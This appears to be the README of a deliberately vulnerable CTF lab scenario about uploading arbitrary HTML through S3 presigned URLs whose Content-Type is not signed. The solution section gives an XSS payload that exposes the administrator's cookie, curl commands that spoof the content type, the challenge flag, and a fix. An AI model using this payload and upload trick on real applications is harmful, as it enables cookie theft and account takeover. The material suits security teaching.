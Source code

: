 # Scenario 2 - Uploading Arbitrary HTML Files Using Signed URLs

[Japanese](./README.md) / [Top](../../README.en.md)

## Launch

```sh
cdk deploy Scenario2
# Or
docker compose run --rm cdk bash -c "cdk deploy Scenario2"
```

## Overview

This scenario involves an application that simulates uploading arbitrary HTML files using signed URLs, with the administrator being the target of the challenge. The ultimate goal of the challenge is to retrieve the cookies of the administrator handling customer inquiries.

**Similar Scenarios**

- [Scenario 1 - Uploading Arbitrary HTML Files Using SDK](../scenario1/README.en.md)
- [Scenario 3 - Uploading Arbitrary HTML Files Using POST Policy](../scenario3/README.en.md)

The administrator's actions are simulated by "Administrator Operation Mock," as in Scenario 1. The administrator views the application URL provided by the user and saves the results in the `/delivery` directory in S3.

![Architecture of Scenario2](design.png)

## Solution

This section describes the solution to the scenario.

### Application Behavior

The target application operates as follows:

1. The user sends a request to upload a file to the application's endpoint.
2. The application processes the request and generates a signed URL for uploading the file to S3.
   - During this process, the application generates a UUIDv4 and uses it as the filename for the signed URL.
3. The user uploads the file to S3 using the signed URL.
4. S3 receives and stores the file.
5. The application returns the filename to the user.
6. The user can access the file using the filename.

### Reviewing the Source Code

The implementation is similar to Scenario 1 but uses the `getSignedUrl` function to generate signed URLs.

The `/api/upload` implementation is in `cdk/lib/scenario2/application/src/app.ts`:

```typescript
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const allow = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allow.includes(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
```

The implementation shows that the API receives `contentType` and `length` parameters, which are used to generate a signed URL for uploading to S3. However, there is a problem: the `Content-Type` header is not included in `signableHeaders` when using the `getSignedUrl` function. This allows the `Content-Type` to be altered during the upload process.

[Reference](https://github.com/aws/aws-sdk-js-v3/blob/9b3fa28ae6bc7bf69f30a0f9e89eac4e058e4793/packages/polly-request-presigner/src/getSignedUrls.ts#L34-L42)

### Exploitation Strategy

The key point in this challenge is that the `Content-Type` is not included in `signableHeaders`. This omission allows the `Content-Type` to be modified to `text/html`, enabling arbitrary HTML file uploads.

The overall flow is similar to Scenario 1.

Save the following HTML file as `xss.html`:

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

Execute the following commands to upload the file:

```sh
TARGET_HOST="....."
FILE=xss.html
LENGTH=$(stat -c %s $FILE)
URL=$(curl -X POST https://${TARGET_HOST}/api/upload   -H "Content-Type: application/json"   -d '{"contentType":"image/png","length":'$LENGTH'}') | jq -r '.url'
curl -X PUT $URL --upload-file $FILE -H "Content-Type: text/html"
```

Provide the generated URL to the administrator through the Report URL field. This allows execution of arbitrary JavaScript in the administrator's browser. After execution, view the file saved in `/delivery/{uuid}` in S3 to retrieve the administrator's cookies.

## Challenge Response

```
flag{fc6f76dd4368e888c1bc878b7750b374c891639f}
```

## Fixing the Uploader

Finally, here is how to fix the uploader.

The `/api/upload` implementation is in `cdk/lib/scenario2/application/src/app.ts`. To address the issue, include `Content-Type` in `signableHeaders` when using `getSignedUrl`.

**Fix: Include Content-Type in signableHeaders**

```typescript
const url = await getSignedUrl(s3, command, {
  expiresIn: 60 * 60 * 24,
  signableHeaders: ['Content-Type'],
});
```

With this fix, `Content-Type` is included in `signableHeaders`, preventing it from being altered during the upload process.
